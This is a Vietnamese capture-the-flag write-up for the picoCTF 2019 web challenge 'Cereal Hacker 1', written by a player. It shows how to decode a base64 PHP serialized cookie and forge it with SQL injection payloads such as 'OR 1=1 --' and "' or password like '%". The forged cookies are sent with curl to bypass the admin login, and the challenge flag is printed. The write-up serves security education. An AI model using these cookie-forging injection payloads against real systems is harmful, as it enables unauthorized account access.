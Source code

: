 # CEREAL-HACKER-1
### Thể loại: Web Exploitation.
### Thử thách: 
Đăng nhập vào tài khoản admin của trang web sau: https://2019shell1.picoctf.com/problem/32256/
### Gợi ý: không có
### Kiến thức nền:
 - Local file inclusion.
 - SQL injection.
 - HTTP cookie.
 - PHP Object injection.
### Giải quyết vấn đề:
Okay, trước tiên chúng ta hãy test thử trang login này nào.
![enter image description here](https://res.cloudinary.com/practicaldev/image/fetch/s--ge4uP4DX--/c_limit,f_auto,fl_progressive,q_auto,w_880/https://thepracticaldev.s3.amazonaws.com/i/q1glk24z4czgq8pl6nqr.png)

1/ Kiểm tra lỗ hổng SQL Injection: 
 - Tại mục username, thử nhập "admin" rồi nhập `'OR 1=1 --` tại mục password để test thử -> Invalid Login. 
 - Có khả năng Password đã được filter. Thử nhập ngay tại username là `admin--` rồi nhập random tại password-> Invalid Login.

2/ Kiểm tra lỗ hổng Local File Inclusion:
URL của trang login này là: https://2019shell1.picoctf.com/problem/32256/index.php?file=login. Hmm, đoạn `index.php?file=login` khiến mình khá là trigger:v Thay "login" bằng "admin" thử xem sao. Bật curl lên múa thôi nào các bạn:))

```html
root@antoine:~# curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>
```

URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin dẫn ta đến một local file của web server như phía dưới:

![PicoCTF 2019: Cereal Hacker 2 (500p) - DEV](https://res.cloudinary.com/practicaldev/image/fetch/s--YnxtPU-W--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/ffnkvrvpvxh0qxqrsro4.png)

F12 để check xem cookie thế nào thì cũng không thấy gì đặc biệt. Thôi thì bấm vào "Go back to login" để quay lại cái trang login ban đầu vậy:((
3/ Kiểm tra dữ liệu HTTP POST:
Trong lúc bắt đầu thấy nản vcl thì mình nảy ra ý tưởng: "Có tài khoản admin thì phải có tài khoản guest chứ nhỉ?" Nhập vào username và password đều là "guest" thử xem. Tada!

![picoCTF 2019 - cereal hacker 1](https://blog.kakaocdn.net/dn/cj4IyA/btqyYPR6PT0/ZK8nMXznDOfidw8oyK44O0/img.png) 

Khi nhập vào các mục của trang login, mình nhận thấy không có bất kì thay đổi gì đặc biệt trên thanh URL ngoài `file=regular_user` . Vậy nhiều khả năng input được truyền tới server bằng phương thức POST. Bật curl lên và xem dữ liệu HTTP POST được gửi tới server như nào thôi nào:3
Dùng lệnh: 
```console
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=login --data "user=guest&pass=guest" -v 
```
Sau một hồi căng mắt dò từng dòng một trong đống output dài vê lờ thì mình đã tìm thấy một thứ khả nghi:
```console
Set-Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D;
```
Đây chính là [HTTP Cookie](https://viblo.asia/p/ban-da-hieu-ro-ve-http-cookie-djeZ1DvGKWz) trong header mà web browser gửi lên cho server.  Cookie user_info này rất có thể được mã hóa base64. Vào 1 trang [Base64 Decoder](https://www.base64decode.org/) để decode thử, ouput là: 

    O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
Output ở phía trên trông khá giống như một [serialized](https://en.wikipedia.org/wiki/Serialization) object trong PHP, và object này thể hiện các thông tin bao gồm username và password. Cùng nhau phân tích output nào:
```
O:11:"permissions": --> object có tên là "permissions",độ dài của string "permissions" là 11 kí tự.
    2: --> số lượng thuộc tính của object "permissions", gồm username và password. 
        {
            s:8:"username"; s:5:"guest"; --> tên của thuộc tính name là một string độ dài 8, giá trị của nó là 1 string độ dài 5.
            s:8:"password"; s:5:"guest"; --> tên của thuộc tính password là một string độ dài 8, giá trị của nó là 1 string độ dài 5.  
        }
```
4/ PHP Object injection:
Object này chứa thông tin để xác thực tài khoản "guest". Vậy nếu chúng ta sửa username thành admin và sử dụng SQL injection để bypass password rồi gói payload này vào 1 [custom HTTP headers](https://www.keycdn.com/support/custom-http-headers)
rồi gửi nó ngược lại cho thằng server thì sao nhỉ? Okay, triển thôi (lưu ý phải thay đổi luôn cả độ dài của string ứng với từng mục nhập vào):

 ```
O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:12:"' OR 1=1; --";}
```
Mã hóa base64 đống payload này. Sau đó gán output sau khi encode vào cookie user_info chúng ta sẽ gửi nó tới server thông qua URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin như sau:
```console 
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin -H "Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTI6IicgT1IgMT0xOyAtLSI7fQ" && echo
```
Hic hic, server trả về đúng trang cũ (You are not admin!). Tiếp tục thử payload khác nào: 
 ```
O:11:"permissions":2:O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:28:"Antoine' or password like '%";}
```
Trong đó `or password like '%` có nghĩa là "hoặc trường password của bản ghi có value bắt đầu bằng null". Mà không có string nào là không bắt đầu bằng null cả nên nó đúng với mọi user nằm trong table (chi tiết xem tại [đây](https://www.w3schools.com/sql/sql_like.asp)). Lặp lại các bước như phía trên ta thu được:

```html
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

</html>

```
Hai cái payload này chỉ là một số hàng chục payload mà mình đã thử:v Vì bài viết có hạn nên chỉ xin giới thiệu từng này:))) Các bạn có thể tham khảo các câu lệnh SQL để inject vào mục tiêu thông qua các cheat sheet nha:3

Anyway, this is the endgame!!!!
